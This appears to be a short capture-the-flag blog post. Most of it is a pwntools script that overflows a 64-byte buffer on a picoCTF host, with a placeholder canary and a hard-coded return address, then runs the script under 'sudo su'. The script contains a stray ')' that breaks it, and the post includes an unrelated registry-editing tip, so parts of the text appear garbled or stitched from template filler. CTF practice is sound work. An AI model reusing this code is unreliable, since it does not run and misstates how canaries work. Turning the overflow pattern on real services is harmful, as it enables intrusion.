 ```yaml
---
layout: post
title: "Post 2"
date: 2024-03-17
categories: CTF
tags: [web-exploitation, reverse-engineering]
author: sam
img_path: assets/img/posts
---
```


Another post. 

> Editing the registry can be risky
{: .prompt-tip }

```python
from pwn import *


host, port = "saturn.picoctf.net", 52235
conn = remote(host, port)

)
buffer_size = 64
canary = "AAAA"  # Replace with the actual canary value
win_address = p32(0x5655625d)  # p32 converts the address to little-endian


payload = b"A" * buffer_size  # Fill the buffer
payload += canary.encode()    # Add the canary
payload += b"B" * 4           # Padding between the canary and the return address
payload += win_address        # Overwrite the return address with the win function address

# Send the payload
conn.sendline(payload)


try:
    response = conn.recvall()
    print(response)
except EOFError:
    print("Received EOFError, which may indicate a failed exploit or closed connection.")


conn.close()


```

```shell
sudo su
python3 payload_script.py

```
{: .nolineno }




![The Lock](gg.webp){:style="display:block; margin-left:auto; margin-right:auto; width:50%;"}
